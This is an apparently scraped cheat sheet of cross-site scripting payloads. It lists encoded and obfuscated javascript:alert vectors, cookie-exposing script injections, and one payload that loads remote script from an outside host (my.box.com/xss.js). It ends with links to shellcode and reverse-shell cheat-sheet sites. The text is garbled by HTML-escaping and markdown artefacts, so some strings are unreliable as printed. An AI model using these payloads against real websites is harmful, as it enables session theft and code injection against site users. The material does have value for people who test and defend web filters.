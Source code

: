 &lt;IMG SRC=&amp;\#106;&amp;\#97;&amp;\#118;&amp;\#97;&amp;\#115;&amp;\#99;&amp;\#114;&amp;\#105;&amp;\#112;&amp;\#116;&amp;\#58;&amp;\#97;&amp;\#108;&amp;\#101;&amp;\#114;&amp;\#116;&amp;\#40;&amp;\#39;&amp;\#88;&amp;\#83;&amp;\#83;&amp;\#39;&amp;\#41;&gt;

&lt;IMG SRC=&amp;\#0000106&amp;\#0000097&amp;\#0000118&amp;\#0000097&amp;\#0000115&amp;\#0000099&amp;\#0000114&amp;\#0000105&amp;\#0000112&amp;\#0000116&amp;\#0000058&amp;\#0000097&amp;\#0000108&amp;\#0000101&amp;\#0000114&amp;\#0000116&amp;\#0000040&amp;\#0000039&amp;\#0000088&amp;\#0000083&amp;\#0000083&amp;\#0000039&amp;\#0000041&gt;

&lt;IMG SRC=”jav ascript:alert\(‘XSS’\);”&gt;

perl -e ‘print “&lt;IMG SRC=javascript:alert\(\”XSS\”\)&gt;”;’ &gt; out

&lt;BODY onload!\#$%&\(\)\*~+-\_.,:;?@\[/\|\\]^\`=alert\(“XSS”\)&gt;

\( “&gt;&lt; iframes [http://google.de](http://google.de) &lt; iframes &gt;\)

&lt;BODY BACKGROUND=”javascript:alert\(‘XSS’\)”&gt;

&lt;FRAMESET&gt;&lt;FRAME SRC=”javascript:alert\(‘XSS’\);”&gt;&lt;/FRAMESET&gt;

“&gt;&lt;script &gt;alert\(document.cookie\)&lt;/script&gt;

%253cscript%253ealert\(document.cookie\)%253c/script%253e

“&gt;&lt;s”%2b”cript&gt;alert\(document.cookie\)&lt;/script&gt;

%22/%3E%3CBODY%20onload=’document.write\(%22%3Cs%22%2b%22cript%20src=[http://my.box.com/xss.js&gt;&lt;/script&gt;"\)’&gt;](http://my.box.com/xss.js></script>"%29’>)

&lt;img src=asdf onerror=alert\(document.cookie\)&gt;

Useful Links To Read and Learn:

Enumeration:

[http://www.0daysecurity.com/penetration-testing/enumeration.html](http://www.0daysecurity.com/penetration-testing/enumeration.html)

Windows Shellcode:

[http://farlight.org/index.html?type=shellcode](http://farlight.org/index.html?type=shellcode)

[http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)

[http://www.windowsexploits.com/](http://www.windowsexploits.com/)

**XSS Cheat Codes:  
**

[http://www.xenuser.org/xss-cheat-sheet/](http://www.xenuser.org/xss-cheat-sheet/)

[https://gist.github.com/sseffa/11031135](https://gist.github.com/sseffa/11031135)

[https://html5sec.org/](https://html5sec.org/)

Reverse Shell Cheat Codes:

[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[http://roo7break.co.uk/?p=215](http://roo7break.co.uk/?p=215)
